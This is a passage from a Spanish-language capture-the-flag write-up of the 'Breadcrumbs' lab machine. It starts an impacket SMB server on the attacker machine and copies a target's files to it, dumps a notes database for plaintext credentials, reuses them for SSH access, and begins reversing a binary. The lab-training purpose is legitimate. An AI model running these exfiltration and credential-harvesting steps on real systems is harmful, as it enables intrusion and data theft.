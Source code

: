 Bien, podemos transferirnos con nc o via smb, prefiero la 2da.

Subimos un servidor SMB: 

```bash
sudo impacket-smbserver parrot . -smb2support
```

![smbserver](/assets/img/Linux/Breadcrumbs/smbserver.png)

Copiamos el contenido a nuestra maquina.

```
copy * \\10.10.xx.xx\\parrot
```

Interactuamos con la db que nos descargamos con **sqlite3**

```sql
sqlite3 plum.sqlite #Usamos sqlite3 para interactuar con la DBSQLite version 3.34.1 2021-01-20 14:10:07Enter ".help" for usage hints.sqlite> .tables #Listamos las tablasMedia           Stroke          SyncState       User          Note            StrokeMetadata  UpgradedNote  sqlite> PRAGMA table_info(Note); #Informacion de la tabla `Note` que es nuestro target.0|Text|varchar|0||01|WindowPosition|varchar|0||02|IsOpen|integer|0||03|IsAlwaysOnTop|integer|0||04|CreationNoteIdAnchor|varchar|0||05|Theme|varchar|0||06|IsFutureNote|integer|0||07|RemoteId|varchar|0||08|ChangeKey|varchar|0||09|LastServerVersion|varchar|0||010|RemoteSchemaVersion|integer|0||011|IsRemoteDataInvalid|integer|0||012|Type|varchar|0||013|Id|varchar|1||114|ParentId|varchar|0||015|CreatedAt|bigint|0||016|DeletedAt|bigint|0||017|UpdatedAt|bigint|0||0select * from Note;\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())! #Esta creds ya la tenemos\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g #Nuevas creds :)\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]|ManagedPosition=|1|0||Yellow|0|||||||0c32c3d8-7c60-48ae-939e-798df198cfe7|8e814e57-9d28-4288-961c-31c806338c5b|637423162765765332||637423163995607122
```

Tenemos unas nuevas creds

```bash
development: fN3)sN5Ee@g #Sirven para SSH, asi que nos logueamos.
```

# Development Part

Ya estamos con el usuario Development, hay un directorio que llama la atencion en C:\Development

![Krypter_linux](/assets/img/Linux/Breadcrumbs/Krypter_linux.png)

Tenemos un binario, lo pasamos igual que la DB de mas arriba y procederemos a destriparlo con **strace** (esto no es mi fuerte hehe)

```bash
strace ./Krypter_Linux                                                                             
```

![New_Project](/assets/img/Linux/Breadcrumbs/New_Project.png)

Antes de intentar con un dissembler, vamos a utilizar strings (shame!!!) en busqueda del pass:
